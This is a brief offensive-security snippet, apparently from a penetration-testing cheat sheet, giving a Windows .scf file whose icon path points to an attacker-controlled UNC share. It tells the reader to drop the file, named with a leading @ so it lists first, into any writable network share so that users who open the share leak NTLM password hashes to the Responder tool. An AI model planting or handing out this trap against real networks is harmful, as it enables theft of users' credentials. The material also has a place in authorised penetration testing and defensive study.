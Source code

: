 # Gather hashes
```scf
[Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```
**Note: The icon file should be the same as the scf file.**

Put this file as test.scf in any writeable share and when user open the share you will get hit in responder. You can add @ to the file like @test.scf and the file will apear first in share.